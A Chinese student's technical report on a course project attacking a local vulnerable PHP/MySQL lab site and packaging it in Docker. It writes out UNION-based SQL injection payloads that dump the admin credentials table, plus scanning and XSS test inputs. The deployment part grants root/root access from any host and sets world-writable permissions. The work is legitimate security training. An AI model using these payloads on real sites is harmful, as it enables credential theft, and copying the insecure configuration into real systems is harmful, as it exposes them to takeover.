


- [李雅萱 —— 个人总结技术报告](#李雅萱--个人总结技术报告)
  - [对团队的贡献](#对团队的贡献)
  - [个人工作介绍](#个人工作介绍)
    - [漏洞探索](#漏洞探索)
      - [权限跨越漏洞](#权限跨越漏洞)
      - [文件上传漏洞](#文件上传漏洞)
      - [XSS漏洞](#xss漏洞)
      - [sql漏洞](#sql漏洞)
    - [漏洞破解](#漏洞破解)
    - [脚本编写](#脚本编写)
    - [镜像搭建](#镜像搭建)
  - [问题及解决](#问题及解决)
    - [exp](#exp)
    - [requirements.txt](#requirementstxt)
    - [project.sql](#projectsql)
    - [config.php](#configphp)
    - [docker](#docker)
  - [总结与思考](#总结与思考)
  - [参考资料](#参考资料)
# 李雅萱 —— 个人总结技术报告
## 对团队的贡献
- 在靶场环境对各类漏洞进行探索。
- 成功发现、破解 `sql` 漏洞。
- 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) [requirements.txt](https://github.com/Taaami/2022-summer-project/blob/main/requirements.txt) 。
- 搭建 `docker` 镜像环境，见 [docker](https://github.com/Taaami/2022-summer-project/tree/main/docker) 。
- 编写自动化脚本，快速搭建环境，见 [build.sh](https://github.com/Taaami/2022-summer-project/blob/main/build.sh) 。
- 编写 `README`，创建、整理小组 [项目仓库](https://github.com/Taaami/2022-summer-project) 。
- 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
## 个人工作介绍
### 漏洞探索
#### 权限跨越漏洞
- 尝试登录 `admin` 权限，登陆页面试了万能密码和 `admin/admin` 都登陆失败(此时路径为 `/project/user/login.php` )。
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  
- 与原有登录页面相同，但尝试了 `admin` 和万能密码还是无法登录。
  
  
#### 文件上传漏洞
- 登录之前注册的一个测试账号，点击编辑发现可以上传图像。
- 查看源代码，可以看到图片的存储路径。
  
  
- 将存储路径的 `url` 直接输入，可以看到原图片。
  
  
- 如果上传 `php` 文件（木马等），可以直接访问。
  
  
- 尝试上传 `php` 等类型文件，失败，提示上传 `jpg` 格式文件。
  
  
#### XSS漏洞
- 看到搜索框，联想到 `js` 代码注入。
- 测试语句为 `<script>alert(123)</script>` 。
- 没有弹窗，说明没有xss漏洞。
  
  
#### sql漏洞
- 看到留言板的搜索框，想到 `sql` 注入。
  
  
- 尝试输入 `'` ，根据回显判断，此框对语句进行了过滤，直接 `ERROR` 。
  
  
### 漏洞破解
- 此时关注点还在留言搜索框，也就是 `search.php` 。
- 当输入一个 `'` 后页面无回显，说明执行了sql查询语句。

  
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  
- `admin/adminpwd` 尝试登录管理员用户，但是失败了。
  >此时路径为 `project/user/login.php`

  
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  
- 与原有登录页面相同，尝试 `admin/adminpwd` 登录管理员用户。
### 脚本编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。
- 根据单引号判断出存在 `sql注入` 漏洞后，脚本思路如下：
    ```mermaid
    graph TD
    A[开始注入]-->B(判断字段数)
    B-->C(查看回显点)
    C-->D(在回显处爆表名)
    D-->E(在回显处爆列名)
    E-->F(输出admin_id:admin_name:admin_pass)
    F-->G(判断加密算法,解密得到密码)
    ```
- 脚本输出结果
  
  
**脚本有详细注释，此处不再赘述。**
### 镜像搭建
- 原有网站环境为 `BuildIt` 组搭建，在此基础上我和罗舒文同学完成了 `docker` 部署。
  - `dockerfile`
    ```docker
    FROM s1riu5/lamp:7.2
    COPY project.sql /docker-entrypoint-initdb.d/
    COPY src/ /var/www/html/demo
    RUN chmod -R 777 /var/www/html
    ```
  - `config.php`
    ```php
    <?php
    //链接数据库
    $host = '127.0.0.1';//本机地址
    $username = 'root';//账户名
    $password = 'root';//密码
    $database = 'project';//数据库名
    $dbc = mysqli_connect($host, $username, $password, $database);//创建数据库对象
    if (!$dbc)
    {
      echo mysql_error();
    }
    //启用session
    session_start();
    //根目录
    $basedir = '/demo'; 
    //载入函数库
    include_once('lib.php');
    ?>
    ```
  - `project.sql`
    > 测试环境在本地，部署 `docker` 后出现权限和登录问题。
    ```sql
    USE mysql;
    UPDATE mysql.user SET authentication_string=password('root') WHERE user='root'; # 解决随机密码或空密码的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root'; # 解决root远程登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    flush PRIVILEGES; # 更新数据库
    ```
- 为方便使用者快速搭建环境，编写了 `build.sh` 一键部署。
  ```shell
  #!/bin/bash
  sudo apt-get install docker.io
  cd docker/demo
  sudo docker build -t demo:v3 .
  sudo docker run -d --name test -p 9000:80 demo:v3
  sudo docker ps
  ```
  ```shell
  # 执行脚本，可能需要较长时间拉取镜像
  sudo bash build.sh
  # 浏览器访问127.0.0.1:9000/demo
  ```
## 问题及解决
### exp
* **Q1**: `docker`部署后与本地环境不同，脚本无法正常使用。
* **A1**: 本地环境中，`'` 会返回空白页面；`docker` 后，`'` 会返回正常页面，但是只有表头没有内容。对脚本进行更改：从根据是否有回显判断，改为根据表是否有内容判断，即关注`<td>`标签。
  >本地环境<br>
  
  `docker` 环境<br>
  
### requirements.txt
* **Q1**: 生成`requirements.txt`
* **A1**: 在目录下运行<sup>[1]</sup>
  ```shell
  # 安装pipreqs库
  pip install pipreqs
  # 在当前目录使用生成
  pipreqs ./ --encoding=utf8 --force
  ```
  >`--encoding=utf8` ：为使用 `utf8` 编码
  `--force` ：强制执行，当生成目录下的`requirements.txt`存在时覆盖 
  `. /` : 在哪个文件生成 `requirements.txt` 文件
### project.sql
* **Q1**: 没有提前设置密码，导致`docker` 设置随机密码且`root`权限无法登录。
* **A1**: 先手动尝试设置、更改密码，实现`root` 登录，然后写入`project.sql`实现自动化配置，规避密码和登录问题。<sup>[2]</sup>
  * 以下为手动过程。
    ```bash
    # 查看mysql所有相关进程
    ps aux | grep mysql
    # 关闭mysql服务
    service mysql stop
    # 再次查看所有进程是否全部关闭
    # 若仍有残留逐个kill（可能会剩一个）
    ps aux | grep mysql
    ```
    ```sql
    # 初始化数据库
    mysqld_safe --user=mysql --skip-grant-tables --skip-networking &
    # 终端挂起，另开一个终端
    mysql # 无需密码，直接登录root权限
    # 修改root密码为root
    UPDATE mysql.user set authentication_string=password('root') where user='root';
    # 刷新命令
    flush PRIVILEGES;
    # 正常输入密码可登录root
    mysql -u root -p
    ```
  * 以下为配置语句，三句话解决。
    ```sql
    USE mysql;
    UPDATE mysql.user SET authentication_string=password('root') WHERE user='root'; # 解决随机密码活空密码的问题
    flush PRIVILEGES; # 更新数据库
    ```
  ---
* **Q2**: 解决**Q1**后，又发现`root` 用户只能本地登录，无法正常连接数据库。
* **A2**: 本地`root` 登录后，添加`root` 用户权限；写入`project.sql`实现自动化配置。<sup>[3]</sup>
  >而且`localhost`和`127.0.0.1`并不是一回事
  ```sql
  USE mysql;
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root'; # 解决root远程登录的问题
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'root'; # 解决root本地登录的问题
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'root'; # 解决root本地登录的问题
  flush PRIVILEGES; # 更新数据库
  ```
### config.php
* **Q1**: `Fatal error: Uncaught Error: Call to undefined function mysqli_connect()`
* **A1**: 开始以为是版本问题<sup>[4]</sup>，但`mysqli_connect()`和`mysql_connect()`都会报错。实际是由于密码、权限问题导致连接不成功，解决了`project.sql-Q1&Q2`后，报错成功消失。
### docker
> 查看日志`/var/log/apache2`
* **Q1**: 测试`build.sh`或者手动部署时，都出现了`docker`闪退的情况，`docker ps`上一秒有镜像，下一秒就没镜像了。
* **A1**: 虚拟机`remake`后问题解决，重启重装重买解决一切问题。猜测镜像运行的太多了，但具体原因未知。

  ---
* **Q2**: `ERROR 1045 (28000): ACCESS DENIED FOR USER 'ROOT'@'LOCALHOST' (USING PASSWORD: YES/NO)`
* **A2**: `USING PASSWORD: YES/NO`两种情况都遇到过。`NO` 为密码错误，`TES` 为密码正确但没权限。<sup>[4]</sup> 但是，尝试不同密码都返回了`YES`，说明查到的这种说法不太靠谱。该问题产生原因是，没有提前配置数据库密码，自动设置随机密码或直接拒绝访问。最终解决办法为提前配置`root`用户密码。

  ---
* **Q3**: `ERROR 2003 (HY000): Can‘t connect to MySQL server on ‘127.0.0.1‘ (111)`
* **A3**: `ping`了几次，连通都非常顺畅，始终没有找到问题所在。最后查到用户登录数据库的权限中，`localhost`和`127.0.0.1`不是同一个东西。最后在权限表两个同时存在就可以正常登陆了。<sup>[6]</sup>

  ---
* **Q4**: `ERROR 2013 (HY000): Lost connection to MySQL server at 'reading initial communication packet', system error: 0 `
* **A4**: `systemctl restart mysql`重启服务就好了，我不理解但我大为震撼。<sup>[7]</sup>

  ---
* **Q5**: `ERROR 1142 (42000): command denied to user`
* **A5**: 出现这个问题是因为增加用户的时候权限设置错误或覆盖，最后没有管理员权限的用户了，而且增删改查都不能进行了。通过绕过验证、提高权限解决问题。<sup>[8]</sup>
## 总结与思考
> 通过本次小学期的学习，我对于**sql漏洞**、**docker镜像部署**、**项目的完整周期**、**日志的重要性**有了更深刻的认识。<br>
> **sql漏洞**：在漏洞破解过程中对此类型漏洞有了系统的了解。不足之处是自己的脚本是基于 `python` 的自动化，并没有从 `php` 的视角去破解。`php` 方面的知识储备不足，不能够很好地利用。<br>
> **docker镜像部署**：以前的 `docker` 都是别人搭好自己直接用，所以没有什么知识储备。这次一步一个坑地搭好了，踩过的坑多了一些，了解的知识又拓宽了一点。<br>
> **项目的完整周期**：以前的作业和小学期基本都是项目的部分工作，这次通过小组合作实现了项目的完整性，并且从头到尾参与了解了实际项目的开发流程。<br>
> **日志的重要性**：在 `docker` 阶段，整整耗费三天 `debug`，浏览器的搜索记录全是各种 `ERROR`。日志救我于水火之中，`/var/log/apache2/error.log` 从看不完到没有。比如镜像搭好后，没有返回什么报错信息，而且运行成功，但就是 `500` 或 `404`。以前代码少直接会报错，现在搭建项目没有反馈就一定要从日志中找突破口，而不是搜索`什么情况会导致500`。<br>
> 受益良多，但不足之处还有很多。感谢小组其他成员和老师的帮助，以及各位不知名网友帮助我 `debug` !
## 参考资料
[1] [python 生成 requirements.txt 文件](https://blog.csdn.net/weixin_57397476/article/details/124025993)

[2] [mysql 数据库安装、修改密码遇到的问题及相关解决方案](https://blog.csdn.net/weixin_46464684/article/details/114904290)

[3] [如何添加新的 MySQL 用户并授予访问权限](https://www.51cto.com/article/696782.html)

[4] [解决 PHP 与 mysql 连接时，报Fatal error:...mysql_connect()错误](https://blog.csdn.net/ysfscdn/article/details/115699870)

[5] [连接DOCKER容器中出现ERROR 1045 (28000)](https://www.freesion.com/article/4392993057/)

[6] [Mysql--ERROR 2003 (HY000):Can‘t connect to MySQL解决](https://blog.csdn.net/weixin_43108793/article/details/113390879)

[7] [mysql登陆时出现ERROR 2013 (HY000):Lost connection to MySQL server](https://www.cnblogs.com/This-is-Y/p/11279689.html)

[8] [ERROR 1142 (42000): command denied to user 引发的权限不足问题](https://www.codeleading.com/article/68223872943/)

[9] [s1riu5/lamp:7.2](https://hub.docker.com/r/tutum/lamp)
